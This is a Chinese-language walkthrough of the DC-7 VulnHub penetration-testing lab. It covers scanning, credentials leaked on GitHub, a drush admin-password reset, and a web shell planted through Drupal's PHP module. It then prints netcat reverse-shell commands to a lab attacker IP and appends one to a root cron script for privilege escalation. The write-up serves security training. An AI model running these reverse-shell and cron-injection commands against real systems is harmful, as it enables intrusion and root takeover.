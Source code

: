 ```yaml
---
title: DC-7复现
permalink: /archives/54139/
published: 2022-12-01 09:13:00
tags: 
  - vulnhub
  - 渗透测试
---
```


# DC-7复现

## 描述

> DC-7是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 虽然这不是一个过于技术性的挑战，但它并不容易。
>
> 虽然这是早期DC版本的逻辑进展（我不会告诉你是哪一个），但涉及一些新概念，但你需要自己弄清楚这些概念。:-)如果您需要诉诸暴力破解或字典攻击，您可能不会成功。
>
> 你需要做的，是“跳出框框”思考。
>
> 哇 盒子的“外面”。:-)
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确定目标的**IP**，以及开放的端口

`nmap 192.168.71.0/24`

![image-20221201092525322](./images/image-20221201092525322.png)

访问80端口上的服务

![image-20221201093011739](./images/image-20221201093011739.png)

机翻

![image-20221201093141461](./images/image-20221201093141461.png)

根据这个提示，说不是技术性的问题，那就有可能是找线索，然后可以发现在脚标处有一个@DC7USER，用谷歌搜索进到了他的GitHub主页，在他的staffdb仓库中的config.php里发现了一个账号和密码，还有数据库的名字

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

![image-20221201093608772](./images/image-20221201093608772.png)

## 漏洞利用

### 账号密码泄露利用

直接在网页登录，是失败的

![image-20221201093747135](./images/image-20221201093747135.png)

那就换一个思路，我们最开始扫描机器的时候，发现其开启了22端口，那就尝试ssh登录

```bash
ssh dc7user@192.168.71.129
```

登录成功

![image-20221201094354750](./images/image-20221201094354750.png)

在当前目录下，发现了两个文件夹**backups**和**mbox**，其中backups是有两个gpg结尾的文件，经过查阅得知这是一种加密文件的后缀；在mbox里记录着root的定时任务，其项目位于`/opt/scripts/backups.sh`

![image-20221201095704000](./images/image-20221201095704000.png)

查看**backups.sh**里的内容

![image-20221201095822202](./images/image-20221201095822202.png)

因为是一个shell脚本，那就看是否够权限写入，并执行进行反弹shell

`ls -l`

发现并没有权限

![image-20221201100418322](./images/image-20221201100418322.png)

### drush修改密码

在**backups.sh**里，我们看到了**drush**命令，进行简单的了解后发现可以利用

drush部分命令：

```
查看用户信息
drush user-information admin	//查询是否存在admin
修改密码
drush upwd admin --password="1234"		//修改admin密码为1234
```

存在admin用户

![image-20221201101409140](./images/image-20221201101409140.png)

admin密码修改成功

![image-20221201101440524](./images/image-20221201101440524.png)

成功登录

![image-20221201101512704](./images/image-20221201101512704.png)

### 反弹shell

这个站的cms是Drupal8，它是不支持php代码的，需要添加模块

<!-- ![image-20221201101820426](C:\Users\alpha\AppData\Roaming\Typora\typora-user-images\image-20221201101820426.png) -->

位置：**manage**->**extend**->**install new module**

可以选者在**intsall from a url**里面填入下载地址进行安装，也可以下载之后选择**Upload a module or theme archive to install**导入安装，我因为url导入不成功，就用上传的方式

下载地址：

```url
https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
```

![image-20221201102310752](./images/image-20221201102310752.png)

回退到Extend界面进行安装

![image-20221201102628741](./images/image-20221201102628741.png)

然后进到content界面直接修改随便一个文件，写入一句话木马

![image-20221201102938629](./images/image-20221201102938629.png)

连接成功，利用蚁剑的虚拟终端进行反弹shell

![image-20221201103452414](./images/image-20221201103452414.png)

```
nc -lvvp 1234	//在攻击机上执行
nc -e /bin/sh 192.168.71.128 1234	//在受害机上执行
python -c 'import pty; pty.spawn("/bin/bash")'	//交互式shell
```

![image-20221201103751736](./images/image-20221201103751736.png)

## 提权

之前的提权方式都用不了，就只能换个思路，前面提到想用**backups.sh**进行反弹shell，发现www-data用户是有写入的权限的，那就同理利用其进行提权

可以直接在蚁剑里找到backups.sh直接加上`nc -e /bin/sh 192.168.71.128 1234`

![image-20221201144758579](./images/image-20221201144758579.png)

也可以利用echo进行写入

```bash
echo 'nc -e /bin/sh 192.168.71.128 1234'>>/opt/scripts/backups.sh
```

```bash
cd ~
cat theflag.txt
```

## flag

![image-20221201144633041](./images/image-20221201144633041.png)